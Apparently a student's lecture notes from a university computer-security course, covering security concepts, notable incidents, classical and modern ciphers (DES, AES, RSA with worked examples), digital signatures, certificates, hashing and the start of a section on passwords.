# 1. Fundamentals

#### Features of Computer Security

##### There is no such thing as absolute computer security

- No clever mathematics or state-of-the-art technology can provide a magic solution

- Issues to consider when achieving security:
	1. Security in which aspects? (info secrecy, damage prevention, available services...)
	2. Security from whom? (all users, differentiate users...)
	3. Security to what level? (cost vs. performance trade off)

- **There is no 100% security**
	- Too many security issues to consider
	- Trade-off between security and other factors
- *The aim is to reduce risk to an acceptable level*

##### Theory is not equal to practice

- Perfect theories can be compromised by bad implementations
- Carefully tested implementations can be broken through *human errors*

- **Security is about:**
	1. **implementation** - how is theory implemented?
	2. **deployment** - make it available to users
	3. **maintenance** - work done to implementation after deployment
	4. **parties involved** - who uses it, what is their security behaviour?
	5. **location** - where is system used?
	6. **temptation** - how tempted is the asset?

#### CIA Triangle

**Confidentiality**
- No unauthorised disclosure

**Integrity**
- No unauthorised change

**Availability**
- Users are not denied access to resources or no unwarranted delay

#### Security Incidents

##### 1. Malware - The Morris Worm

- ***Worm* vs *Virus*** 
	- Both self-replicate and are likely to achieve rapid population growth
	- *Virus* replicates into other executable code and infects it
	- *Worm* is standalone, doesn't need a host program

- In 1988, Robert Morris wrote the first computer worm, used to measure the size of the internet
- Used `rsh` to generate a process and invoke OS commands to gain network information
- Can be infected multiple times, gradually slowing the computer down to be completely useless
- Rapidly infected `10%` of machines on the *Arpanet*

##### 2. Denial of Service (DoS) attack on GitHub

- ***Def.*** *DoS* Attack - flood the victim site with enormous amount of traffic, so that the site becomes unavailable to users
- Occurred in Feb 2018, originated from thousands of network domains across tens of thousands of *endpoints*
- **Attack Vector** - used the memcached-based approach that peaked at 1.35Tbps via 126.9 million packet/s

##### 3. DDoS Attack on Amazon
- **Attack Vector** - exploited the CLDAP service
- Set a new record of the scale of DDoS attacks - 2.3Tbps
- Detected and mitigated by Amazon in Feb, 2020

##### 4. Hacktivism
- *Motivation* - used as protest action against governments / institutions
- Used Twitter to call for people to join their actions
- DDoS attacks against government services, e.g. Minnesota's State Portal, the Austin Police Department, banks in Minnesota
- Web defacements
- Doxing of police officers

##### 5. Megaupload Incident
- *Megaupload.com* is a file sharing site, in Jan 2012 the site was taken down and its executives were arrested
- Retaliation DDoS attacks started within hours, group "Anonymous" took down US government website - White House, Department of Justice and FBI
- Music sites like Universal Music and Warner Music attacked

##### 6. Social Engineering
- ***Def.*** social engineering - exploiting people's trust, causing people to divulge personal information 
- No technical skills needed, but social skills
- *Social Engineering* is the most common data breach attack and `85%` of attacks prey upon the human element of cybersecurity

##### 7. Physical Security
- E.g. Russian programmer taken hostage in 2010
- Breaching physical locations and threatening people physically

##### Analysing Security Incidents
1. Who did it?
2. Motivation - why might they be doing it?
3. **Attack vector**
4. Damage (which security aspect is breached)
5. What should be done to prevent the attack or mitigate the damage?

#### Basic Terminologies

##### Asset
- Anything we value enough so that we want to protect it
- E.g. customer database, web page, laptop, company reputation

##### Vulnerability
- A *flaw* or weakness in a system's design, implementation, or operation and management that could be **exploited** to violate the system's security policy
- E.g. weak password, program bug

##### Threat
- A *potential for violation* of security, which exists when the attacker has the *capability* and *intention* to breach security $$ \text{threat} = \text{capability} \times \text{intent} $$
- E.g. hacker discovers new way to exploit a vulnerability and writes a virus
- Evaluation Model - *Microsoft STRIDE*

| Threat                 | Security Aspect |
| :--------------------- | --------------- |
| Spoofing               | Authentication  |
| Tampering              | Integrity       |
| Repudiation            | Non-repudiation |
| Information disclosure | Confidentiality |
| Denial of Service      | Availability    |
| Elevation of Privilege | Authorisation   |

##### Attack
- An *assault* on security in which a *threat exploits vulnerability* $$\text{attack} = \text{threat} \times \text{vulnerability}$$
- E.g. crashing a website through DOS (**active**)
- E.g. eavesdrop on the network traffic (**passive**)
- E.g. social engineering

##### Risk
- An *expectation* of loss expressed as the *probability* of an actual attack causing a loss $$\text{risk} = P(\text{attack}) \times \text{loss} = P(\text{threat exploits vulnerability}) \times \text{loss}$$
- A second formula is $$\text{risk} = \text{threat} \times \text{vulnerability} \times \text{loss (or assets)}$$
- e.g. risk of laptop being trampled by an escape rhino is small
- e.g. risk of leaving laptop on the bus could be quite high

##### Countermeasure
- An action that *reduces a threat, vulnerability or loss* by eliminating or *preventing the attack* or by *detecting* the attack and reacting with corrective action
- E.g.
	- **Prevention** - firewall, passwords, etc.
	- **Detection** - intrusion detection system
	- **Reaction** - login systems that lock users out after 3 failed attempts

##### Trust
- Difficult to design a security system that is devoid of trust
- Used in many contexts -  **trusted user**, **trusted third party**, **trusted host**, **trusted systems**
	- Limits our responsibility
	- Trust affects our view of threat and thus the countermeasures we employ
	- Trust is also a valuable business asset

#### Risk Analysis and Handling

##### Informal Risk Analysis
- Identity (value) assets
- Identify vulnerabilities
- Identify threats

##### Qualitative Methods

- using a checklist

- For example, the DREAD model by Microsoft
	- **Damage** - how bad would an attack be?
	- **Reproducibility** - how easy is it to reproduce the attack?
	- **Exploitability** - how much work does it need to launch the attack?
	- **Affected Users** - how many people will be affected?
	- **Discoverability** - how easy is it to discover the threat?



##### Quantitative Methods

- mathematical model

- Fault Tree Analysis:
	- List all the possible events can occur, and list the possible causes of it, until the most basic causes

- For example - **Car won't Start**
	- *Electrical Fault*
		- Broken wire
		- Starter Faulty
	- *Control Status*
		- Foot on brake & In Park



- This can only tell us the probability an attack will occur. Afterwards, we still have to determine the amount of harm that it will cause, and we will get some form of **measurable risk**

- Useful formula: 

    $$P(A \cap B) = P(A)P(B); \hspace{2em} P(A \cup B) = P(A) + P(B) - P(A \cap B)$$

##### Strategies to Handle Risks
1. Fix the vulnerabilities
2. Risk acceptance
3. Risk avoidance
4. Risk transference
5. Detection
6. Reaction

# 2. Secret Key Encryption

### Overview

#### Terminology

**Plaintext**
- The original message

**Ciphertext**
- The result of encrypting the message

**Encryption / Decryption**
- The process of transforming the plaintext to the ciphertext (or reverse)

**Cipher**
- A method used to perform encryption and decryption

**Cryptography**
- The science of securing communication and data from unauthorised access
- Encompasses a broad range of methods, including *encryption*, *digital signatures*, *hashing*, etc.

#### Types of Encryption

**Secret Key Encryption**
- The key is a secret, only known to the communicating parties
- The same key is used for encryption and decryption
- Also called *shared key encryption*, *single key encryption*, **symmetric key encryption**

**Public Key Encryption**
- A pair of keys - *public* key and *private* key
- Use public key to encrypt the message
- Use private key to decrypt the message
- Clever maths are used

### Secret Key Cryptography

**Overview**
- Key is secret shared by sender and receiver
- The encrypt and decrypt algorithms are public
	- The ciphertext is safe as long as the key is secret
- Decryption is reverse (symmetric) of encryption
- Modern "standard algorithms" are:
	- `Data Encryption Standard` (DES)
	- `Advanced Encryption Standard` (AES)



#### Technique 1 - Steganography

##### Overview
- Technique of ***hiding data in plain sight***, e.g. embedding a satellite image of an airfield into an image
- *Strictly speaking* it is not secret key encryption, but we need to share the secret of how the info is hidden and how to retrieve it

##### Why is it used?
- Encrypted messages are often unreadable
- Therefore this often **raises suspicion**
- Steganography hides the message in the plain text

##### Process:
- `cover_medium + hidden_data + stegano_key = stegano_medium`
- where:
	- `cover_medium` = the file in which we will hide the hidden data
	- `hidden_data` may be also encrypted using `stegano_key`
- **cover medium** and thus the **stegano medium** are typically image or audio files

##### How to hide data in an image
- Images often use either $8$-bit or $24$-bit colour
- For example, 24-bit colour has:
	- each pixel represented by $3$ bytes
	- each of the $3$ bytes represents the intensity of the $3$ primary colours, *red*, *green* and *blue*
- Use **LSB** insertion to hide data
	- Use the *binary representation* of `hidden_data` to overwrite the LSB of **each byte** in the `cover_image`
	- If we are using 24-bit colour, the amount of change is indiscernible to the human eye

 ##### Example of LSB Insertion
- Given three pixels:
	1. `10010101 00001101 11001001`
	2. `10010110 00001111 11001010`
	3. `10011111 00010000 11001011`
- We can hide $9$ bits of data, `101101101` in the three pixels like this:
	1. 1001010*1*  0000110*0*  1100100*1*
	2. 1001011*1*  0000111*0*  1100101*1*
	3. 1001111*1*  0001000*0*  1100101*1*
- **S-Tools** are often used for steganography

#### Technique 2 - Code Words

- Define code for each vocabulary
- Codebook is like a dictionary
- Look up the "dictionary" for each word in the plaintext

#### Technique 3 - Change the Order of Letters

- Also known as a *transposition* or *permutation* cipher
- Uses the principle of **confusion**

- ##### Simple Version
	- **Process:**
		- Rearrange the plaintext in rows of fixed length
		- Then send the message in columns
	- Letters are the same, but in different order
	- The shared secret is **knowing what permutation is carried out**
	- For example: `THISISAVERYSECRETMESSAGEX` is written as:
		1. `THISI`
		2. `SAVER`
		3. `YSECR`
		4. `ETMES`
		5. `SAGEX`
	- Then we read it out as `TSYES HASTA IVEMG SECEE IRRSX`

- ##### Keyword Version
	- We can generalise this to specify a **keyword** which has an alphabetical order, e.g. `phone` = `52431`, and read off the message in columns in the **order specified by the keyword**
	- For example, the same `THISISAVERYSECRETMESSAGEX` message would be read out in the column order as:
	- `IRRSX HASTA SECEE IVEMG TSYES`
	- **The keyword is the secret key shared between sender and receiver**

- ##### Double Transposition
	- The keyword version can be applied any number of times
	- Double transposition is where the keyword permutation process is applied **twice** to give a stronger result

	

#### Technique 4 - Substitution

##### 4a - Monoalphabetic Substitution Cipher

- Uses the principle of **confusion**
- Define a **Ciphertext alphabet**
- E.g. shifting alphabet (*Caesar Cipher*)
	- Plaintext alphabet - `ABCDEFGHIJKLMNOPQRSTUVWXYZ`
	- Ciphertext alphabet - `DEFGHIJKLMNOPQRSTUVWXYZABC`
- ***NOT THE BEST*** - The major flaw with this is the linear relation, as all letters are shifted by the same amount

- We can improve on this by using a **keyword**, e.g. `zebras`, and then filling out the remaining ciphertext alphabet using the remaining letters
- E.g.
	- Plaintext alphabet - `ABCDEFGHIJKLMNOPQRSTUVWXYZ`
	- Ciphertext alphabet - `ZEBRASCDFGHIJKLMNOPQTUVWXY`
- **Disadvantage** - there is no "linear relation" but a long ciphertext can be cracked using *frequency analysis*

**Frequency Analysis**
- Count the letter frequency in the ciphertext
- The letter with highest frequency in the ciphertext is much more likely to be "e" in the plaintext than "z"

##### 4b - Polyalphabetic Substitution Cipher

- Uses the principle of **confusion**
- In a *monoalphabetic substitution*, we have a one-to-one mapping
- To prevent frequency analysis, we can use multiple ciphertext alphabets
- Use a **key** to decide which ciphertext alphabet is applied in each substitution

- For example, the **Vigenère Cipher** uses a table where you lookup the plaintext character and the keystream character to get the ciphertext character



- **Advantages**
	- much more resilient to frequency analysis
	- A letter in plaintext may be mapped to different letters in the ciphertext
- **Disadvantages**
	- Still has same statistical flaws for the letters that use the same ciphertext alphabet
	- Statistical flaw is mitigated by a longer keyword
	- In theory, it is most secure if the keyword is the same length as the plaintext

##### Methods of Implementing Polyalphabetic Substitution Ciphers
- E.g. *Cipher disc*:
	- Assign each letter a numerical value, e.g. "A" = 0, "Z" = 25
	- `cipher = (plain + key) modulo 26`
- In the computer, plaintext and key stream are 2 streams of bits, so **bitwise** operations are used instead of addition which is **slow**
	- **XOR** is chosen as **AND** and **OR** do not produce unique encryption
	- **XOR** produces unique encryption as it is its own inverse

##### 4c - Non-Repeating, Different Substitutions
- ***One Time Pad***
- Each letter in the message is encrypted using a different alphabet, hence it has **maximum security**
- There are problems with how the key is **shared** as both parties have to know the key which is as long as the plaintext - *does not solve the problem*
- **Disadvantage** - not a practical solution in key generation, key distribution and key protection

### Principles of Good Encryption

##### 1. Confusion
- If a bit of the key is changed, multiple parts of the ciphertext will change
- Hides relationship between ciphertext and key

##### 2. Diffusion
- If we change a character of the plaintext, then multiple characters of the ciphertext should change
- Spread the statistical structure of the plaintext over multiple parts of the ciphertext
- Hides the relation between ciphertext and plaintext

##### 3. Hard to break even with MOST GENEROUS ASSUMPTIONS
- Encryption process is **KNOWN**
- Initial settings (e.g. key length) are **KNOWN**
- As long as the key is secret

##### 4. Management of encryption scheme is feasible and cost-effective
- Long key may be very secure - but how can it be managed?
- Consider whole cryptographic management system, not only the encryption algorithm

### Data Encryption Standard (DES)

#### Data Encryption Standard

##### Block vs Stream Cipher
- A *block cipher* encrypts blocks of data one at a time (e.g. DES)
- A *stream cipher* encrypts each input element (bit or byte) one at a time, producing the matching output element as the process goes along



##### Specification

- The first standardised encryption method
- Based on the **Feistel** approach

- Block cipher: $64$-bit plaintext block size
- Uses a $56$-bit secret key
- $16$ rounds of encryption operations per block
- Uses substitution
- Uses permutation
- Encryption operations are all public

#### The Feistel Approach Overview



##### Algorithm
1. Plaintext block is split into two equal parts $(L_0, R_0)$ each of 32 bits
2. Run one side of the pair through a **feistel** function that is fed a key $K_0$.
3. The output of this function, $R_0K_0$ is **XORed** with the other half $L_0$
4. The output of this **XOR** is used as the input of the round function for the **next round**, while the initial $R_0$ will be **XORed** with this 2nd round function output
5. This continues for a total of $16$ rounds, where the final blocks are the ciphertext
- Formally, at each round we compute: $$(L_{i+1}, R_{i+1}) = (R_{i}, L_{i} \oplus F(R_{i}, K_{i}))$$ where $F$ is the Feistel function
- The ciphertext is $(R_{n+1}, L_{n+1})$.

##### Characteristic of Feistel Cipher
- The process for **decryption** follows the exact same steps as encryption
- **only difference** is that the round keys need to be used in the reverse order

#### Subkey Generation



##### Algorithm
- Perform `PC-1` (permuted choice $1$)
	- which shuffles and uses $56$ bits from $64$ bits
- In each round:
	- The key is divided into two halves
	- Each half is treated separately by circularly-shifting left by one or two bits
	- Perform `PC-2` (permuted choice 2)
		- which shuffles and selects $48$ bits from $56$ bits
	- The result of the `PC-2` operation is the **subkey** used in the Feistel function $F$.

##### Permuted Choice 1
1. Drops the $8$th bit of each of the eight $8$-bit blocks, as they are the parity bits
2. Permute the remaining $56$ bits

##### Permuted Choice 2
- Takes a $56$-bit subkey and produces a $48$-bit round key for each round function
- Each bit of the initial 56-bit key is used in an average of $14$ of $16$ round keys

#### Round Function (Feistel Function)



##### There are 4 operations in this function

1. **Expansion**
	- $32$ bits half-block is expanded to $48$ bits by duplicating half of the bits
		- $32$ bits organised into $8$ pieces each with $4$ bits
		- Duplicate the first and fourth bit in each piece

2. **Key Combination**
	- The output of the expansion is **XORed** with the current round key, $K_i$

3. **Substitution**
	- The result of the **XOR** is broken into $8$ 6-bit pieces and each is passed through a unique substitution box or `S-Box`
	- This uses the *vectorial boolean function* to convert $6$-bit input to a $4$-bit output
	- For **performance reasons**, there is a lookup table to store the mapping from $6$-bit input to $4$-bit output
	- In each row, the lookup table cell values are unique, meaning **row-wise** the values are from $0$ to $15$.

4. **Permutation**
	- The result of that is passed through a permutation function $P$ to achieve **diffusion**

#### Summary of DES

- **Block cipher** - a block is divided into two halves
- Each block goes through $16$ rounds of processing
- Each round has a different subkey
- Apply the **Feistel** function:
	- *expansion*, *combination*, *subtitution*, *permutation*
- Symmetry of process for encryption and decryption

### Advanced Encryption Standard (AES)

#### Advanced Encryption Standard

##### Overview
- *DES* has now been considered insecure due to the short key
	- Can only be cracked via brute force, no problem with its theory
- **AES** is chosen as the new standard by *National Institute of Standards and Technology* (NIST) in 2001 to supersede DES
- Compared to DES it has a longer block size ($128$bits) and a longer key (either $128$, $192$ or $256$ bits)
- Similar block cipher features but designed for more **inherent parallelism** (Substitution-Permutation network)

##### Algorithm
- **10** rounds of processing for each $128$-bit block:
	1. **Substitution** using $8$-bit lookup table
	2. **Permutation** - by shifting rows of the matrix
	3. **Mixing** within each column (multiplication by a fixed matrix)
	4. **XOR** with the round key

#### Matrix Operations



##### 1. Substitution -`SubBytes`
- Involves splitting the input into bytes and passing each through a **substitution box** (S-box)
- Unlike DES, the AES uses the same S-box for all bytes
- Each byte from the input is replaced by a Sub-Byte using an 8-bit substitution box (essentially a lookup table)
- The $128$-bit block size is represented as a $4 \times 4$ matrix of bytes ($128/16 = 8$)


##### 2. Permutation - `ShiftRows`
- Each row of the $128$-bit internal state of the cipher is shifted by a certain offset
- The top row is not shifted at all, the next three rows are shifted by $1$, $2$, $3$ respectively
- This results in each column of the output state composed of bytes from each column of the input state
- ***NOTE*** - this is important to avoid the columns being encrypted independently, because that would make AES into 4 independent block ciphers



##### 3. Mixing - `MixColumns`
- The output matrix of the `ShiftRows` step is pre-multiplied by a fixed matrix to mix the columns
- This helps with diffusion as if you change one cell, the entire output column will change (from matrix multiplication)



##### 4. Round Key - `AddRoundKey`
- The only operation in AES that directly operates on the AES round key
- In this operation, the input to the round is XORed with the round key

#### Security

**AES is a lot more secure than DES**
- Assuming a *magic computer* can break *DES* in $8$ seconds:
	- AES-128 brute force would take $1.3 \times 10^{15}$ years
	- AES_256 could be used for post-quantum computing assurance

### Common Secret Key Encryption Algorithms



- Note that **PGP** used to use **IDEA** as an encryption algorithm but now uses more common algorithms such as **AES** and **3DES**

# 3. Public Key Encryption

#### Public Key Encryption

##### Motivation
- *"To share a secret, you must already know a secret*
- **Key Exchange Problem** - how do you exchange keys?
	- Physical distribution - motorbike couriers, secure government transport
	- Distribution via telecommunications - send it in pieces via different routes
	- Key distribution centre - sender and receiver go collect the key
- These methods are difficult to manage

##### Public Key Encryption
- Utilises *one way functions*
	- i.e. given aa function $f$ and the input $x$, computing $f(x)$ is computationally easy
	- however given $f$ and $f(x)$, finding what $x$ was inputted is computationally difficult
- Also known as **asymmetric key encryption** as there are two keys - public key and private key
- Well known public key encryption algorithm is **RSA**

#### Modular Arithmetic

##### Congruence
- The value of $x \bmod n$ is the remainder when $x$ is divided by $n$. This results in a finite set of possible outputs $\{0, ..., n-1\}$.
- If $a$ and $b$ both have the same remainder on division by $n$, then we say *$a$ is congruent to $b$ mod $n$*, or $$a \equiv b \pmod n$$
- A number is equivalent to infinitely many other numbers mod $n$. Exactly one of its equivalences will be in the principal range $0, ..., n-1$

##### Properties of Modular Arithmetic
1. $(A+B) \bmod n \equiv ((A \bmod n) + B) \bmod n$
2. $(A + B) \bmod n \equiv ((A \bmod n) + B \bmod n) \bmod n$
3. $(A \times B) \bmod n \equiv ((A \bmod n) \times B) \bmod n$
4. $(A \times B) \bmod n \equiv ((A \bmod n) \times (B \bmod n)) \bmod n$
5. $x^{A \times B} \bmod n \equiv (x^A \bmod n)^B \bmod n$
6. $(x^A \bmod n)^B \bmod n \equiv (x^B \bmod n)^A \bmod n$

##### One Way Functions
- A function that is easy to compute in one direction, but is computationally infeasible to calculate in reverse

##### Primitive Roots
- The modular exponentiation function is a one-way function if $y$ is the **primitive root** $\bmod p$ and $p$ is an enormous number (e.g. 512-bits) $$k = y^x \bmod p$$
- ***Def.*** $y$ is the primitive root $\bmod p$ if
	1. Successive powers of $y \bmod p$ will generate all the numbers from $1 \to p-1$
	2. The generated numbers, i.e. the value of $k$, are distributed uniformly in the range $[1, p-1]$

- This is a **one-way function** because if we try a value $x$ for a given $k$, the probability $x$ is **correct** is $\frac{1}{p-1}$ as the value of $k$ is equally likely to be any number in $[1,p-1]$.

#### RSA Encryption Algorithm

##### Overview
- Each communication party $x$ generates a pair of keys:
	- $KP_x$ - the public key for user $x$
	- $KU_x$ - the matching private key for user $x$
- Sender uses receiver's public key to encrypt the message
- Receiver uses their own private key to decrypt the message

##### Generating the Public Key
- Choose $2$ large secret *prime numbers* $p$ and $q$, and calculate their product $n = p \times q$
- $n$ is the public key.
- **Next**, select another value $e$ that is coprime to $(p-1) \times (q-1)$, and $1 <e < (p-1)(q-1)$

##### Message Encryption
- To encrypt a message, we use the formula $$C = M^e \bmod n$$ where $C$ is the ciphertext and $M$ is the message
- If an eavesdropper gets $C$, it is **computationally infeasible** to calculate $M$
	- Because $k = y^x \bmod p$ is a one-way function
	- it is difficult to calculate $x$ given $k, p, y$ and it is difficult to calculate $y$ given $k, p, x$

##### Generating the Private Key
- We find a number $d$ such that $$e \times d = 1 \bmod((p-1)(q-1))$$
- Here $d$ is the private key owned by the receiver, **Bob**
- $d$ is called the *multiplicative inverse* of $e \bmod (p-1)(q-1)$.

##### Finding $d$
- There is a formal method of finding the private key in a 15-page paper
- We can also find $d$ by inspection: for a value which is $1$ greater than a multiple of $(p-1)(q-1)$, is it a multiple of $e$ ?
	- e.g. $e = 7, p = 17, q=11$ so $d$ must satisfy $7d \equiv 1 \bmod 160$
	- Consider first number that is $1$ greater than $(p-1)(q-1)$, i.e. $161$. It is a multiple of $7$, ($7 \times 23 = 161$) so $d = 23$

##### Ciphertext Decryption
- We use the formula $$M = C^d \bmod n$$
- It is very easy to decrypt the ciphertext given the private key.
- All the receiver has to do is to keep the private key safe.

##### Example

- E.g. $p = 11, q=3$
- We can find the public key $n$ as $n = 11 \times 3 = 33$
- We need to find an $e$ that is coprime to $20$ in the range $1 < e < 20$. One such $e$ that could work is $7$.
- We can then calculate the private key $d$ from the equation $$7d = 1 \bmod 20$$ for which $3$ is a valid solution. The easiest way to do this is just by trial and error

- To encrypt the message $M = 7$ using the public key, we can finder the ciphertext $C = M^e \bmod n = 7^7 \bmod 33 = 28$. 
- We can then decrypt it using the private key as $M = C^d \bmod n = 28^3 \bmod 33 = 7$

#### Security of RSA

- To break RSA an attacker must:
	- Either reverse the **one-way function** which is computationally difficult
	- Or know $d$, which means to know $p$ and $q$ which means to know $n$, but factorising a large $n$ is also a **one-way function**
	- The only way is **brute-force**, but a large enough key size will make this **infeasible**

- To match the security of a $256$-bit secret key, the **RSA** key needs to be $15460$-bits. RSA started with $512$-bit public key, but now it is $2048$-bits and will need to increase again to $3072$-bits from $2030$ onwards.

- An implication of longer key length $k$, is that encryption and decryption times increase as well:
	- Encryption time = $O(k^2)$
	- Decryption time = $O(k^3)$

#### Public vs Secret Key encryption

**DES** is between $1000$ and $10000$ times faster than **RSA** (encryption & decryption)

| **Secret**                                                                                                   | **Public**                                                                        |
| :----------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------- |
| Uses XOR, substitution, permutation - **fast**                                                               | Uses a one-way function - **slower**                                              |
| Key is secret, attacker knows less information and hence requires shorter key for **same** level of security | Only relies on the length of the public key to prevent the crack with brute force |
| **Faster** to perform operations on a shorter key                                                            | The longer the key, the **slower** the operation                                  |
| Key distribution is **complicated**                                                                          | Key distribution is **easy**                                                      |

# 4. Digital Signature & Certificates

### Digital Signatures

#### Integrity, Authentication, Non-repudiation

##### Symmetry of Public Key Encryption
- We can encrypt and decrypt starting with the public key then the private key, or the other way around
- This is because of **property 6** of modular arithmetic

##### Terminology
- We can encrypt with private keys for everyone to be able to decrypt because it provides:
	- ***Integrity*** - we don't care about the privacy of the message, but we want to be sure that no one tampers with it
	- ***Authentication*** - I want my receiver to know that the message definitely came from me
	- ***Non-repudiation*** - If someone sends a malicious message, the system will be able to identify who the owner of the public key is

##### Methodology

- **To provide integrity**, we send an encrypted message along with a plaintext message (we don't care if people can see the message, we just don't want them to tamper with it)

- When the receiver decrypts the message, and compares the $2$ messages (*plaintext and decrypted*), if they are the same, **integrity** is guaranteed
	- This is because if someone tampers with our message, they **don't have the private key** to encrypt the message they changed
	- They have a **low probability** of being able to reverse the one-way function to re-encrypt the tampered message.

- If a ciphertext can be decrypted by my public key, it **must** mean that the message was encrypted by my private key and hence came from me.
- This ensures **integrity** and **non-repudiation** but *not* necessarily **authentication**

#### Digital Signatures

##### Motivation
- Encrypting an entire message may be **costly** (time-wise), for the purpose of integrity we don't actually need to encrypt the entire message

##### Methodology
1. Calculate the **hash** of the message (aka. digest)
2. Encrypt the hash using the private key. This is the **digital signature**
- Digital signatures are attached to plain text messages and are used to verify integrity
- The final message is $e + [\text{hash}(e)]_{ku}$

##### Verification
- Use the sender's public key to decrypt the digital signature to recover the hash
- Generate a hash of the received plaintext using the same hash algorithm used by the sender
- Compare the two hashes

##### Encryption vs Digital Signature

| Encryption Scheme         | Digital Signature                                           |
| :------------------------ | ----------------------------------------------------------- |
| Maintains confidentiality | Provide integrity check, authentication and non-repudiation |
| Can recover plaintext     | Cannot recover plaintext                                    |

#### Message Authentication Code (MAC)

##### Overview
- MAC is another way of providing integrity.
- *The hash of an input file is computed and encrypted using a shared secret key*
- This can **guarantee integrity** but **cannot provide non-repudiation**
	- Because MAC is created with a secret key
	- Secret key is shared by more than one party

##### Motivation
- MAC is used because it is much faster than digital signature because it uses secret key encryption instead of public
	- **Recall** secret key uses XOR, shift etc.
	- Public key encryption uses modular exponentiation which takes more time to compute.

### Digital Certificates

#### Digital Certificates

##### Overview
- Digital certificates are provided by a **trusted third party** called the *Certificate Authority*. These certify that a public key indeed belongs to somebody
- By default, web browsers and email clients are installed with **root certificates** of popular CA's
	- Root certificate is the one that **CA** issues to itself

##### Format
- The `X.509` format is used to compose certificates which includes:
	- Subject - **distinguished name** of the user
	- Subject's public key
	- Certificate Authority's subject
	- Digital signature of CA
- The format of the distinguished name is: 
```C
O=University of Warwick, 
OU=Department of Computer Science, 
CN=Ligang He 
```
- $\text{(O : organisation, OU : organisation unit, CN: common name)}$

##### Authentication through certificates
1. $A$ asks for $B$'s certificate, and $B$ sends it over
2. $A$ uses the CA's public key to verify $B$'s certificate
3. If $B$'s certificate is genuine, $B$'s public key contained in $B$'s certificate is genuine
- This is one way authentication, where $A$ **can authenticate** $B$'s identity



##### Strong Authentication with Certificate
- $A$'s certificate proves that public key belongs to $A$
- Use $A$'s public key to verify the message is really signed by $A$'s private key
- If so, the message must come from $A$



##### Authentication Chain
- In addition to issuing certificates to users, the CA can also set up a sub-CA, e.g. CA1.
	- CA1 can also issue certs to users
	- The certs issued by CA1 are signed by CA1
	- CA1 also issues a root certificate to itself

- In the below example:
    1. A sends A's digital certificate and CA1's digital certificate to B
    2. B uses CA's public key to verify CA1's digital certificate
    3. B uses CA1's public key to verify A's digital certificate
    4. B uses A's public key to verify the integrity of the signed message



#### Web of Trust

##### Overview
- There is **no centralised certificate authority**. Each users establishes their personal web of trust
	- Each user **creates a certificate** and can sign other users' certificates
- There are $2$ attributes about a user: **Validity** and **Trust**
	- **Validity** - indicates the ***confidence*** others have that a certain user's public key actually belongs to them
	- **Trust** - indicates the **confidence** others have that a certain user is **careful** when signing other users' certificates
- Users can rate validity and trust of another user as **unknown**, **marginal**, **full**, or **ultimate**

##### Determining Validity

- Validity is determined by 4 main factors:
    * Threshold distance
    * Validity and trust score
    * Number of users trusted
    * Number of valid users

##### Trust Requirements

- *User C's key is considered valid by user A if the key has been signed:*
    * by at least one user with **full** trust set by A
    * or by at least $n$ users with **marginal** trust set by A, where $n$ is predefined in the web of trust scheme

- Example: when at least one user signed with **full** trust. Trust is *inherited* and *cumulative*


- Example: when $n$ users sign with **marginal** trust


##### Distance Requirements

- ***Def***. The *distance* between two users is the number of arrows/links in the web of trust.
- Even if all users are of full trust on the chain from A to C, C's key is not considered valid by A if the distance between the two users is bigger than a pre-set threshold.
- **However**, if the trust level is *ultimate* throughout, it breaks the restriction of threshold distance

- Example: when the chain distance is greater than the threshold (which is $3$ in this example)


- Example: when *ultimate* trust breaks the restriction


#### Certificate Authority vs Web of Trust

##### Certificate Authority

- Centralised third party that issues **digital certificates** to users or other CAs
- Assumed to be *reputable* and *trustworthy*
- If an authentication chain can be established from a CA to a particular certificate, then the trustworthiness of the certifcate is assumed

##### Web of Trust
- Requires a chain of signatures to be established from each user to the certificate in question
- Each user acts his own authority by rating the **validity** and **trustworthiness** of other users
- Along with other paramters like chain length and number of chains, these affect the final score of a particular certificate which determines if it should be trusted or not.
- Relies on personal knowledge of users, should be people they know personally or otherwise have verified the identity of offline.

| Certificate Authority | Web of Trust |
|:----------------------|------------- |
| More convenient for end user as CA's are assumed to be trustworthy | Less conveinent for end users as they continually assess the relaibility of certificates |
| If one CA certificate is compromised, the attacker can impersonate any site on the internet as all CAs have the authority to sign any certificate | Integrity of WoT depends on how well maintained it is by its users |
| Usually one authentication chain for any certificate, so every chain has a single point of failure | Usually has multiple signature chains for one certificate, so a particular certificate is more trustworthy |

### Cryptographic Hashing


#### Overview

- A hash algorithm maps an input of arbitrary length to a fixed length "hash" or "digest"
- **Properties of Cryptographic Hashing**
    * Input message shouldn't be derivable from output hash
    * Alternations to file should result in very different hash
    * No key input needed, anyone can do it
    * **Preimage Resistance**
        - Infeasible to find a message which generates this given hash
    * Collision Resistance
        - Infeasible to find any two distinct messages that generate the same hash
    * Should be quick and cheap to perform

#### Hash Function: SHA-256

1. The message is padded to make the message length a multiple of $512$
2. Message divided into blocks of $512$ bits
3. $64$ words are generated from each block, each word is $32$ bits
    *  The first $16$ words are obtained by splitting the block into $32$-bit blocks
    * Remaining $48$ words are obtained using a formula
4. $8$ $H$ variables are initialised
5. Each message block is processed one at a time, and the $H$ variables are added
6. The hash of the message is the `bitwise-concatenation` of all the $H$ variables.

#### Hashing in Practice

- Common standard cryptographic hash algorithms are:
    * MD5
    * SHA-2 (includes SHA-256)
    * SHA-3

- MD5 is declared cryptographically broken and unsuitable for further use in 2010

# 5. Password Authentication

#### Authentication

- The general intention of computer security is to prevent unauthorised access and to ensure authorised users can access systems quickly.

- The first step of control is to identity who a user is (*Identification*) and verify this identification (*Authentication*)
    - **Identification** - identity by username
    - **Authentication** - a process of verifying if the users are really who they claim they are

#### Passwords

##### Overview
- A basic but very useful authentication method
- The invaluable first line of security defense

##### Attacks related to Passwords
- **Boots 2020**
    * Attacker attempted to use stolen passwords to access loyalty cards, 150K accounts affected
- **NetEase 2015**
    * Email addresses and *plaintext* passwords relating to 235 million accounts were sold by dark web marketplace
- **MyFitnessPal 2018**
    * 150 million usernames and passwords were posted for sale online. *passwords stored as SHA-1 hashes*
- **Booz Allen hacked 2011**
    * 90K passwords of military personnel, *hashed but not salted*
- **Yahoo hacked 2013**
    * 450K usernames and passwords stolen and disclosed, *stored in plain text*

##### The problem with passwords
- People set weak passwords
- People often repeat passwords for different accounts
- Even if people have good password habits, some sites store passwords in plaintext
- Some sites allow unlimited login attempts
- Some sites/systems don't salt passwords - make it easy to crack with computers

##### People's tendency in setting passwords
- According to one survey, `12%` of employees used "*password*" as their password
- Password length is short
- `1/4` of hashed passwords were cracked using a dictionary and combinations of the username
- Around `12%` use dictionary words
- `81%` use alphanumeric passwords

##### User Overload
